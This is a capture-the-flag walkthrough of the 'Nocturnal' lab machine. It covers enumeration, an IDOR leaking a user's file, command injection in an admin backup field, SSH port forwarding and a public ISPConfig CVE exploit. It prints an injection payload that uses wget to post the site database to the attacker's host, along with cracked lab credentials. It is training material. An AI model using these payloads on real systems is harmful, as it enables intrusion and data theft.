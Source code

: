 # Nocturnal - easy

## Nmap Enumeration

```
sudo nmap 10.10.11.64 -Pn -p-
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-21 04:15 EDT
Nmap scan report for 10.10.11.64
Host is up (0.029s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 28.86 seconds
```

```
sudo nmap 10.10.11.64 -Pn -p 22,80 -sC -sV
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-21 04:15 EDT
Nmap scan report for 10.10.11.64
Host is up (0.028s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.04 seconds
```

## Web Enumeration

### Directories
```
└─$ ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://nocturnal.htb/FUZZ
...
uploads                 [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 28ms]
backups                 [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 28ms]
                        [Status: 200, Size: 1524, Words: 272, Lines: 30, Duration: 26ms]
uploads2                [Status: 403, Size: 162, Words: 4, Lines: 8, Duration: 30ms]
:: Progress: [220559/220559] :: Job [1/1] :: 1492 req/sec :: Duration: [0:02:42] :: Errors: 0 ::
```

### Files
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://nocturnal.htb/FUZZ.php
...
index                   [Status: 200, Size: 1524, Words: 272, Lines: 30, Duration: 36ms]
register                [Status: 200, Size: 649, Words: 126, Lines: 22, Duration: 38ms]
login                   [Status: 200, Size: 644, Words: 126, Lines: 22, Duration: 44ms]
view                    [Status: 302, Size: 2919, Words: 1167, Lines: 123, Duration: 29ms]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 30ms]
logout                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 29ms]
dashboard               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 31ms]
:: Progress: [220559/220559] :: Job [1/1] :: 1481 req/sec :: Duration: [0:02:42] :: Errors: 0 ::
```

## IDOR 

We can view a file that we uploaded. The URL is:
```
http://nocturnal.htb/view.php?username=test&file=img.pdf
```

We found that's possible to see all the files from an user by modifying `file`:
```
http://nocturnal.htb/view.php?username=test&file=.pdf
```

We can now fuzz on differents usernames and hope to find good ones:
```
ffuf -w /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -u 'http://nocturnal.htb/view.php?username=FUZZ&file=.pdf' -H 'Cookie: PHPSESSID=02gn...' -fs 2985

admin                   [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 63ms]
amanda                  [Status: 200, Size: 3113, Words: 1175, Lines: 129, Duration: 28ms]
tobias                  [Status: 200, Size: 3037, Words: 1174, Lines: 129, Duration: 32ms]
```

`amanda` have a file named `privacy.odt`:
```
http://nocturnal.htb/view.php?username=amanda&file=.pdf

```
In this file we find a temporary password:
```
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. ...
``` 

## Command injection

We have access to the admin pannel. From it, we can read the site's files but the interesting feature is the possibility to make a backup of the site by entering a password.   </br>
The `password` is vulnerable to `command injection`:
```
"ls
```
```
Output
ls: cannot access 'backups/backup_2025-08-21.zip': No such file or directory
.:
admin.php
...
```

We extract the databse:
```
password="wget%09http://10.10.14.10:8000/%09--post-file%09nocturnal_database.db&backup=
```

And find the password for the user `tobias`:
```
sqlite> select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
...
```

```
hashcat -w 3 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt -m 0
...
55c82b1ccd55ab219b3b109b07d5061d:slowmotionapocalypse
```

We have access to the machine with the credentials: `tobias:slowmotionapocalypse`

## Privelege Escalation

A service is running on port `8080` and accessible only locally:
```
tobias@nocturnal:~$ ss -tulpn
...                          
tcp           LISTEN        ...                       127.0.0.1:8080                         0.0.0.0:*                            
```

It's a `ISPConfig` site:
```
tobias@nocturnal:~$ curl -v localhost:8080 -L
...
  <title>ISPConfig</title>
```

We redirect the application to our machine, making it more easy to exploit:
```
ssh -L 9090:localhost:8080 tobias@nocturnal.htb
```

We access it on `localhost:9090`.

We can login with the credentials `admin:slowmotionapocalypse`

In the monitor section we got the verion of the application:
```
ISPConfig 3.2.10p1
```

We find a vulnerability `CVE-2023-46818`:
```
https://github.com/ajdumanhug/CVE-2023-46818

python3 CVE-2023-46818.py http://localhost:8080 admin slowmotionapocalypse
```

